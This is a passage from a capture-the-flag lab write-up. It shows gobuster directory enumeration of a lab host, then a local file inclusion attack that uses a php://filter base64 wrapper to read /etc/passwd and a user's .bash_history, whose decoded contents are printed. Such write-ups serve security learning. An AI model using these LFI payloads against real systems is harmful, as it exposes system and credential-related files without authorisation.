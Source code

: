   ```
  $ gobuster dir -u http://10.10.34.14/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.hta                 (Status: 403) [Size: 276]
  /.htaccess            (Status: 403) [Size: 276]
  /.htpasswd            (Status: 403) [Size: 276]
  /assets               (Status: 301) [Size: 311] [--> http://10.10.34.14/assets/]
  /index.php            (Status: 302) [Size: 0] [--> /index.php?page=home.html]
  /server-status        (Status: 403) [Size: 276]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```

---

## 🌐 Web Exploitation 

- Ofc there is LFI on the main page.

  ```
  http://10.10.34.14/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd

  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  [SNIP!]
  blue:x:1000:1000:blue:/home/blue:/bin/bash
  lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
  red:x:1001:1001::/home/red:/bin/bash
  ```
  
- Now we have users `red` and `blue` beside `root`, so I started looking for some sensitive stuff with LFI and I read `.bash_history`.

  ```
  http://10.10.34.14/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history

  ZWNobyAiUmVkIHJ1bGVzIgpjZApoYXNoY2F0IC0tc3Rkb3V0IC5yZW1pbmRlciAtciAvdXNyL3NoYXJlL2hhc2hjYXQvcnVsZXMvYmVzdDY0LnJ1bGUgPiBwYXNzbGlzdC50eHQKY2F0IHBhc3NsaXN0LnR4dApybSBwYXNzbGlzdC50eHQKc3VkbyBhcHQtZ2V0IHJlbW92ZSBoYXNoY2F0IC15Cg==
  
  $ echo 'ZWNobyAiUmVkIHJ1bGVzIgpjZApoYXNoY2F0IC0tc3Rkb3V0IC5yZW1pbmRlciAtciAvdXNyL3NoYXJlL2hhc2hjYXQvcnVsZXMvYmVzdDY0LnJ1bGUgPiBwYXNzbGlzdC50eHQKY2F0IHBhc3NsaXN0LnR4dApybSBwYXNzbGlzdC50eHQKc3VkbyBhcHQtZ2V0IHJlbW92ZSBoYXNoY2F0IC15Cg==' | base64 -d
  echo "Red rules"
  cd
  hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
  cat passlist.txt
  rm passlist.txt
  sudo apt-get remove hashcat -y
  ```
  